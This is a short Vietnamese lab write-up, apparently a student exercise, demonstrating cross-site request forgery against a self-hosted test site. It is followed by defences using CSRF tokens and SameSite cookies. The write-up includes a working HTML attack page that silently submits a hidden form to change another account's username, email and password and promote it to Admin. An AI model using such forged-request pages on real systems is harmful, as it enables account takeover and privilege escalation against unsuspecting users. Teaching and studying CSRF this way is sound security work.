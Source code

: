 Người thực hiện: Lê Trần Văn Chương
Ngày: 18/04/2022

- Link: 
    - Victim: https://00bluec10.000webhostapp.com/index.php
    - Attack: https://php-bacsic.000webhostapp.com/
- Để có thể attack vào trước tiên user phải login vào trước để có thể `Cookie` của user đó để attack.
- Khi user đã login và lấy được `Cookie` thì ta gửi cho user host đã chuẩn bị sẵn để user nhấn vào bắt đầu đổi thông tin,... 
- Dưới đây là 1 đoạn `Code` html đơn giản để có thể đổi user có `accountId=2` những thông tin đã nhập trong form sẵn và chuyển user này thành `Admin`:
```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://00bluec10.000webhostapp.com/EditAccount.php?accountId=2" method="POST">
      <input type="hidden" name="username" value="CSRF" />
      <input type="hidden" name="email" value="csrf@gmail.com" />
      <input type="hidden" name="password" value="asd" />
      <input type="hidden" name="role" value="1" />
      <input type="hidden" name="editUser" value="Edit" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
- Trước khi attack
![Hinh 1.](~/../img/1.png)

- Sau khi attack
![Hinh 2.](~/../img/2.png)

## Phòng chống
- Cách dễ dàng nhất là ta sẽ thêm vào form 1 cái `token` nếu mà gửi lên server mà không có cái token này thì nó sẽ hiện lỗi.
```html
<form action="/ex.com" method="post">
<input type="hidden" name="CSRFToken" value="OWY4NmQwODE4ODRjN2Q2NTlhMmZlYWEwYzU1YWQwMTVhM2JmNGYxYjJiMGI4MjJjZDE1ZDZMGYwMGEwOA==">
[...]
</form>
```
- Hoặc có thể dùng thuộc tính `Samsite` của `Cookie` để phòng chống và đặt `SameSite=Strict` sẽ ngăn trình duyệt gửi cookie đi.

